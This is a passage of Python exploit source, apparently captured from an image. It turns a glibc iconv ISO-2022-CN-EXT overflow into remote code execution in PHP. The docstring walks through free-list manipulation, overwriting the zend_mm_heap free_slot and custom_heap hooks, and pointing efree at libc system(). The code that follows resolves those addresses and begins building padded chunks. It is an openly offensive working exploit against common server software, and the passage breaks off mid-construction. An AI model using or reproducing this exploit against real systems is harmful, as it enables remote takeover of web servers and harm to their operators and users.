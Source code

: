 ```python
        0x7fffAABBCCB00 -> 0x7fffAABBCCA00 -> 0x7fffAABBCC900

        We need to go the other way around. That's why we have step 1: it just allocates
        chunks. When they get freed, they reverse the free list. Now step2 allocates in
        reverse order, and therefore after step2, chunks are in the correct order.

        Another problem comes up.

        To trigger the overflow in step3, we convert from UTF-8 to ISO-2022-CN-EXT.
        Since step2 creates chunks that contain pointers and pointers are generally not
        UTF-8, we cannot afford to have that conversion happen on the chunks of step2.
        To avoid this, we put the chunks in step2 at the very end of the chain, and
        prefix them with `0\n`. When dechunked (right before the iconv), they will
        "disappear" from the chain, preserving them from the character set conversion
        and saving us from an unwanted processing error that would stop the processing
        chain.

        After step3 we have a corrupted freelist with an arbitrary pointer into it. We
        don't know the precise layout of the heap, but we know that at the top of the
        heap resides a zend_mm_heap structure. We overwrite this structure in two ways.
        Its free_slot[] array contains a pointer to each free list. By overwriting it,
        we can make PHP allocate chunks whereever we want. In addition, its custom_heap
        field contains pointers to hook functions for emalloc, efree, and erealloc
        (similarly to malloc_hook, free_hook, etc. in the libc). We overwrite them and
        then overwrite the use_custom_heap flag to make PHP use these function pointers
        instead. We can now do our favorite CTF technique and get a call to
        system(<chunk>).
        We make sure that the "system" command kills the current process to avoid other
        system() calls with random chunk data, leading to undefined behaviour.

        The pad blocks just "pad" our allocations so that even if the heap of the
        process is in a random state, we still get contiguous, in order chunks for our
        exploit.

        Therefore, the whole process described here CANNOT crash. Everything falls
        perfectly in place, and nothing can get in the middle of our allocations.
        """

        LIBC = self.info["libc"]
        ADDR_EMALLOC = LIBC.symbols["__libc_malloc"]
        ADDR_EFREE = LIBC.symbols["__libc_system"]
        ADDR_EREALLOC = LIBC.symbols["__libc_realloc"]

        ADDR_HEAP = self.info["heap"]
        ADDR_FREE_SLOT = ADDR_HEAP + 0x20
        ADDR_CUSTOM_HEAP = ADDR_HEAP + 0x0168

        ADDR_FAKE_BIN = ADDR_FREE_SLOT - 0x10

        CS = 0x100

        # Pad needs to stay at size 0x100 at every step
        pad_size = CS - 0x18
        pad = b"\x00" * pad_size
        pad = chunked_chunk(pad, len(pad) + 6)
        pad = chunked_chunk(pad, len(pad) + 6)
        pad = chunked_chunk(pad, len(pad) + 6)
        pad = compressed_bucket(pad)

        step1_size = 1
        step1 = b"\x00" * step1_size
        step1 = chunked_chunk(step1)
        step1 = chunked_chunk(step1)
```